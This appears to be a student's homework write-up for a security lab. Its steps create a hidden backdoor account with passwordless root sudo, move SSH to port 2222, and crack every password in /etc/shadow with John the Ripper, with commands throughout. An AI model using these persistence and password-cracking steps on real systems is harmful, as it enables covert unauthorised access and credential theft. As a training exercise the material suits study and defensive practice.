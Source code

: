 ## Week 6 Homework: Advanced Bash - Owning the System
### Step 1: Shadow People
1. Create a secret user named sysd. Make sure this user doesn't have a home folder created:
* `adduser --no-create-home sysd`
2. Give your secret user a password:
* `sudo passwd sysd`
3. Give your secret user a system UID < 1000:
* `sudo usermod -u 200 sysd`
4. Give your secret user the same GID:
* `sudo groupmod -g 200 sysd`
5. Give your secret user full sudo access without the need for a password:
* `sudo visudo`
* #privilege specification
* `Sysd ALL=(ALL:ALL) NOPASSWD:ALL`
6. Test that sudo access works without your password:
* `sudo -l`
* `sudo su`

### Step 2: Smooth Sailing
1. Edit the sshd_config file:

![alt text](proof_of_work.md/image3.png)

### Step 3: Testing Your Configuration Update
1. Restart the SSH service:
* `systemctl restart ssh.service`
2. Exit the root account:
* `exit`
3. SSH to the target machine using your sysd account and port 2222:
* `ssh sysd@192.168.6.105 -p 2222`
4. Use sudo to switch to the root user:
* `sudo su`

### Step 4: Crack All the Passwords
1. SSH back to the system using your sysd account and port 2222:
* `ssh sysd@192.168.6.105 -p 2222`
2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
* `sudo su`
* `john /etc/shadow`

![alt text](proof_of_work.md/image6.png)

